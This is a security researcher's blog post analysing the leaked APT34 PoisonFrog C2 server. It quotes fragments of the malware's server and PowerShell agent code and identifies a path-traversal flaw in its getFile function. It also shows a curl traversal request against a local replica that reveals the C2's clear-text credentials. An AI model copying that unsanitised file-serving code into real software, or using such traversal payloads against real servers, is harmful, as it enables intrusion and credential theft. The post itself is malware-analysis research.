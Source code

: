 ```yaml
---
layout: post
title:  "A journey on APT34 PoisonFrog C2 Server"
date:   2019-05-31
categories: security apt34 malware poisonfrog vulnerability
---
```


## Introduction

In this blog post I will analyse the C2 Server used by Oilrig/APT34 and how bad coding practice can lead to vulnerabilities that can allow the takeover of the C2 server.

Every time there is a leak that affects some hacking group it always sparks my interest. I always study the source code and the features these tools have in order to learn new techniques that may come in handy during our Red Team operations, so I started digging in the PoisonFrog C2 framework.


I started by downloading the tools on Github : <https://github.com/blackorbird/APT_REPORT/tree/master/APT34>


## PoisonFrog C2 Server


The C2 Server is built on node.js and the coding pattern that are used shows that whoever programmed the C2 side of the framework wasn't very experienced with programming. Unfortunately the source code of the C2 server is missing the most important part, the script bringing everything together, but by looking at different components of the framework we get a clear description of how everything is "glued" together.


The "serverside" folder of the C2 framework contains the following files :


* installing - This folder contains bash and bat scripts for the installation of the dependencies.
* routes - This folder contains a javascript file that contains most of the source code.
* views - The html templates.
* 0000000000.bat/9999999999.bat - bat files that gathers information about the computer is executed on.
* config.json - The C2 server configuration.


The most interesting file was index.js which was responsible for exporting most of the functions used by the C2 server.
Firstly, I started looking at the login functionality which immediately showed the code quality. As can be seen below, it first checks if a cookie with the username is set and if not it will try to compare the credentials provided on the request. 
This authentication mechanism is clearly poor and there are a lot of bad practices but none of them allows you to bypass the authentication.

```js
exports.login = function (req, res) { // .......... login checking function ............
    var Cookies = require('cookies');
    var cookies = new Cookies(req, res);
    var cookie = cookies.get(config.user);
    if (cookie === undefined) {
        //console.log("cookie not exist");
        var username = req.body.username;
        var password = req.body.password;
        //console.log(username+"   "+password);
        if (username == config.user && password == config.password) {
            // set cookie
            cookies.set(config.user, config.password, { maxAge: new Date(Date.now() + 3600000), expires: new Date(Date.now() + 3600000), httpOnly: true })
            //console.log('cookie created successfully');
            res.redirect("/in/http");
            return;
        } else {
            res.redirect(config.guid);
            return;
        }
    } else {
        // yes, cookie was already present 
        //console.log('cookie exists', cookie);
        res.redirect("/in/http");
    }
}
```


At this point I was pretty sure there would be some more poorly implemented code and I stumbled across the following function.

```js
exports.getFile = function (req, res) {
    var fileName = req.params.input;
    var fs = require('fs');
    var fileAddress = commonDir + "files/" + fileName;
    fs.createReadStream(fileAddress).pipe(res);
};
```
The exported function getFile initializes the fileName variable from the request that is sent to the C2 server. Since no sanitization is done on the input, an attacker can specify a specially crafted *input* parameter in  order to access files outside of the main directory.


Unfortunately, we do not have access to the entire source code but based on the code we have we can confirm that the vulnerability exists.


In order to understand at what point of the communication between the agent and the C2 the getFile function was used, I needed to get a better understanding of both components.


On line 826 the exports.agent function is defined with the comment "agent request for last command". From that comment we can clearly understand that this function is responsible for handling the command distribution on the agent. 
Basically what the function does is it will get the agentId from the request and check if this is an existing agent or not.
If it's a new agent, it will create three directories "/send/" , "/receive/", "/wait/" as can bee seen in the code snippet below.

```js
var agentCode = req.params.input;
[SNIP]
agentId = agentCode.substring(0, 5) + agentCode.substring(agentCode.length - 5, agentCode.length);
var agentDir = commonDir + "http/" + agentId;
        if (!fs.existsSync(agentDir)) { // this is new agent ....
            fs.mkdir(agentDir, function (err) {
                if (err) { console.log(err); }
                fs.mkdir(agentDir + "/send/");
                fs.mkdir(agentDir + "/receive/");
                fs.mkdir(agentDir + "/wait/", function (err) {
                    if (err) { console.log(err); }
[SNIP]
```

We can skip the send and receive folders and only focus on the /wait/ one. As I mentioned earlier, the *0000000000.bat* file was responsible for collecting information regarding a Windows host.
So after creating the wait folder, it will read the bat file and write it in commonDir + "/files/386be98ce7c7955f92dc060779ed7613" as can be seen in the below :

```js
fs.createReadStream("./0000000000.bat").pipe(fs.createWriteStream(commonDir + "/files/386be98ce7c7955f92dc060779ed7613"));
```

Additionally, it will create a file named 00000000 in the Agent wait directory.
```js
fs.writeFile(agentDir + "/wait/0000000000", "0000000000<>C:\\Users\\Public\\Public_Data\\files\\0000000000.bat<>0000000000.bat<>386be98ce7c7955f92dc060779ed7613<>not", function (err) { if (err) { console.log(err); } });
```

We can see that the filename *386be98ce7c7955f92dc060779ed7613* which was created previously, is embedded in the response the C2 server sends to the agent. Merely by looking at the constructed string we can see that the filename is used by the agent to access the bat file. If you remember the getFile function, it was using the same directory (commonDir + /files) to serve the files thus demonstrating the consistency of the file directories between the getFile and agents functions.


The other missing part of the puzzle is the URL endpoint the *getFile* function was called on and since some of the server code was missing my focus turned in analyzing the powershell Agent.

In order to understand the process better let's follow the communication between the agent and the C2 step by step.

1. Agents connects to the C2 Server.
2. C2 Server builds the command and sends it to the agent.
```
0000000000<>C:\\Users\\Public\\Public_Data\\files\\0000000000.bat<>0000000000.bat<>386be98ce7c7955f92dc060779ed7613<>not
```
3. The Agent receives the command from the C2, and creates an array out of it as we can see in the following code snippet:
```ps
if ({DownloadedCommand}) {
        {AgentCommandArray} = {DownloadedCommand}.split("<>") | where {$_}
```
4. After performing some checks on the array, the agent used powershell webclient in order to download the file named as the third(fourth) element of the array and saving it in $EEA+second(third) element of the array. The $EEA variable is defined in the beginning of the agent and contains the value $env:PUBLIC+"\Public\files\".

```ps
{WebClientGlbVariable}.DownloadFile("http://c2server/fil/"+{AgentCommandArray}[3], $EEA+{AgentCommandArray}[2]);
```
The "parsed" call would we something like this :
```
WebClient.DownloadFile("http://c2server/fil/386be98ce7c7955f92dc060779ed7613",$env:PUBLIC+"\Public\files\" +  "0000000000.bat" .
```

It should be noted that the following snippets of code has been taken by the HTTP agent that was dropped by the powershell script. Also, some of the variable names have been  changed to be more clear to read.

Now we can clearly connect all the dots between the way the agent downloads the file and how the getFile function is responsible for sending the file response back.

## Conclusions

Having a good understanding of where the vulnerable function is used, the implementation of the missing code would be something like this :

```js
const express = require('express')
const app = express()
[SNIP]
app.get('/fil/:input',getFile);
[SNIP]
```

As I described earlier in the post, this is a directory traversal vulnerability and can be exploited in several ways but the most relevant in this case would be reading the config.json file which contains the clear text credentials of the C2, giving us control over the C2 Server. An example service was started that implemented the same function as the C2 server and sending the following request disclosed the clear text credentials on the config.json file, in this case the ones in the leak.

```bash
test@ubuntu:~$ curl 'http://127.0.0.1:3000/fil/..%2Fconfig.json'
{
    "guid" : "/7345SDFHSALKJDFHNASLFSDA3423423SAD22",
        "user" : "blacktusk",
        "password" : "fireinthehole"
}test@ubuntu:~$
```

Keep in mind that this blog post this was constructed by my understanding of both the components of Poison Frog but I can't certainly confirm the existence of the vulnerability without having the entire code. However, there are firm evidences in the components code that agree with me ¯\\_(ツ)_/¯ .

If you have any questions or maybe some knowledge to drop feel free to contact me.



